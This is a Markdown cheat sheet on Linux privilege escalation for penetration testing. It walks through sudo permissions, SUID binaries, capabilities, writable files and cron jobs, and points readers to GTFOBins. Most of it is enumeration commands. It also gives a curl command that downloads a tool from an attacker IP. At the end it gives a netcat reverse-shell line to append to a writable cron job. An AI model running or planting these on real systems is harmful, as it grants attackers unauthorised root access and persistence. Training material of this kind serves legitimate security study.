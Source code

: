 # Linux PrivEsc

The resources you will mostly be relying on are mainly [GTFOBins](https://gtfobins.github.io/) and [HackTricks](https://book.hacktricks.wiki/en/index.html)
## Sudo Permissions
### sudo -l

Listing the current user's list of allowed binaries that can be run with sudo can sometimes net an easy win. Imagine if you have sudo capabilities for `su`, just run `sudo su` and poof, you're suddenly root. 
A comprehensive list of abusable binaries can be found on [GTFOBins](https://gtfobins.github.io/)

To check for sudo permissions (requires password)
```bash
sudo -l
```

If the user can run ANY command with sudo, you can just use
```bash
sudo -i
```
### SUID bit

If an SUID bit is set on a binary, it allows anyone on the machine to run said binary with sudo permissions that can be abused to grant privilege escalation

Full list of abusable SUID binaries at [GTFOBins](https://gtfobins.github.io/)

To check for binaries that have SUID set
```bash
find / -perm -u=s -type f 2>/dev/null
```

## Capabilities

Capabilities are attributes that provide specific privileges that are usually only executable with root-level access/permissions. An example of this would be to intercept network traffic, mount/unmount devices or simply read a file with root permissions without granting root-level write capabilities.

If misconfigured, this can provide the attacker with a means of privilege escalation. As usual, a comprehensive list of binaries that can be abused via capabilities can be found on [GTFOBins](https://gtfobins.github.io/)

Check for abusable capabilities using getcap
```bash
/usr/sbin/getcap -r / 2>/dev/null
```

If the system has no getcap, you can drop one yourself
```bash
curl http://192.168.100.200/getcap > getcap
chmod +x getcap
getcap -r / 2>/dev/null
```

## Writable Files and Directories

Certain files and directories can provide ways to privilege escalate with write permissions. This can be as straightforward as adding a user into `/etc/passwd`. 

The results may also hint at folders or files that are being executed or are dependent on another process or cronjob, which can then be overwritten to obtain privilege escalation.

The command to check for writable files and directories on the system is
```bash
# Directories
find / -writable -type d 2>/dev/null

# Files
find / -writable -type f 2>/dev/null
```

## Crontabs/Cronjobs

Cron jobs, if any, tend to run with privileged permissions in order to properly execute a certain task. These tasks can be leveraged to spawn a shell as a privileged user by an attacker, thereby granting privilege escalation.

Crontabs for the current user can be checked via
```bash
crontab -l
```

If you have sudo permissions, you can also run `sudo crontab -l` to view more cronjobs (if available)

System-wide crontabs can, from time be viewed from `/etc/crontab` if an admin adds it there
```bash
cat /etc/crontab
```

Cronjobs can also be found in the `cron` folders
```bash
ls -lah /etc/cron*
```

If you find that you are able to edit a cron job file, adding this simple line at the end will establish a reverse shell back to your Kali machine (remember to change the IP address and port number if necessary)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.200 4444 >/tmp/f
```

